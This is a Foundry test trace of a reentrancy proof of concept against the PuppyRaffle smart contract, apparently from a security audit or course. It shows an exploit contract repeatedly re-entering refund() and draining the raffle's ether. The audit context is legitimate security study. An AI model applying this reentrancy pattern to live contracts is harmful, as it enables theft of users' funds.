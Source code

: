 ```bash
    ├─ [120836] Exp::Attack()
    │   ├─ [34804] PuppyRaffle::enterRaffle{value: 1000000000000000000}([0x2e234DAe75C793f67A35089C9d99245E1C58470b])
    │   │   ├─ emit RaffleEnter(newPlayers: [0x2e234DAe75C793f67A35089C9d99245E1C58470b])
    │   │   └─ ← [Stop] 
    │   ├─ [2934] PuppyRaffle::getActivePlayerIndex(Exp: [0x2e234DAe75C793f67A35089C9d99245E1C58470b]) [staticcall]
    │   │   └─ ← [Return] 4
    │   ├─ [50993] PuppyRaffle::refund(4)
    │   │   ├─ [41712] Exp::receive{value: 1000000000000000000}()
    │   │   │   ├─ [40649] PuppyRaffle::refund(4)
    │   │   │   │   ├─ [31368] Exp::receive{value: 1000000000000000000}()
    │   │   │   │   │   ├─ [30305] PuppyRaffle::refund(4)
    │   │   │   │   │   │   ├─ [21024] Exp::receive{value: 1000000000000000000}()
    │   │   │   │   │   │   │   ├─ [19961] PuppyRaffle::refund(4)
    │   │   │   │   │   │   │   │   ├─ [10680] Exp::receive{value: 1000000000000000000}()
    │   │   │   │   │   │   │   │   │   ├─ [9617] PuppyRaffle::refund(4)
    │   │   │   │   │   │   │   │   │   │   ├─ [336] Exp::receive{value: 1000000000000000000}()
    │   │   │   │   │   │   │   │   │   │   │   └─ ← [Stop] 
    │   │   │   │   │   │   │   │   │   │   ├─ emit RaffleRefunded(player: Exp: [0x2e234DAe75C793f67A35089C9d99245E1C58470b])
    │   │   │   │   │   │   │   │   │   │   └─ ← [Stop] 
    │   │   │   │   │   │   │   │   │   └─ ← [Stop] 
    │   │   │   │   │   │   │   │   ├─ emit RaffleRefunded(player: Exp: [0x2e234DAe75C793f67A35089C9d99245E1C58470b])
    │   │   │   │   │   │   │   │   └─ ← [Stop] 
    │   │   │   │   │   │   │   └─ ← [Stop] 
    │   │   │   │   │   │   ├─ emit RaffleRefunded(player: Exp: [0x2e234DAe75C793f67A35089C9d99245E1C58470b])
    │   │   │   │   │   │   └─ ← [Stop] 
    │   │   │   │   │   └─ ← [Stop] 
    │   │   │   │   ├─ emit RaffleRefunded(player: Exp: [0x2e234DAe75C793f67A35089C9d99245E1C58470b])
    │   │   │   │   └─ ← [Stop] 
    │   │   │   └─ ← [Stop] 
    │   │   ├─ emit RaffleRefunded(player: Exp: [0x2e234DAe75C793f67A35089C9d99245E1C58470b])
    │   │   └─ ← [Stop] 
    │   └─ ← [Stop] 
    ├─ [0] VM::toString(0) [staticcall]
    │   └─ ← [Return] "0"
    ├─ [0] VM::toString(6) [staticcall]
    │   └─ ← [Return] "6"
    ├─ [0] console::log("After Attack Balance: PuppyRaffle->%sether,Exp->%sether", "0", "6") [staticcall]
    │   └─ ← [Stop] 
    └─ ← [Stop] 

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 1.21ms (376.46µs CPU time)

Ran 1 test suite in 1.20s (1.21ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```
